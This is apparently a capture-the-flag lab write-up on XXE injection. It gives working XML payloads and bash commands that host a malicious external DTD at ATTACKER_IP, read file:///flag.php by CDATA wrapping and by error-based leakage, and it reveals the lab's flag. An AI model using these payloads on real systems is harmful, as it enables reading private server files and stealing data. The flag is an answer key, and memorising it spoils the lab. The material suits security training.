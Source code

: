 #### Method 1: CDATA Approach (at `/index.php`)

**Step 1: Create External DTD**
```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

**Step 2: XXE Payload**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///flag.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://ATTACKER_IP:8000/xxe.dtd">
  %xxe;
]>
<root>
    <name>Test User</name>
    <email>&joined;</email>
    <message>Test message</message>
</root>
```

#### Method 2: Error-Based Approach (at `/error`)

**Step 1: Create Error DTD**
```bash
cat > xxe.dtd << EOF
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
EOF
python3 -m http.server 8000
```

**Step 2: Error XXE Payload**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://ATTACKER_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
<root>
    <name>Test User</name>
    <email>test@example.com</email>
    <message>Test message</message>
</root>
```

**🎯 Flag:** `HTB{3rr0r5_c4n_l34k_d474}`

### Lab 3: Blind OOB Data Exfiltration
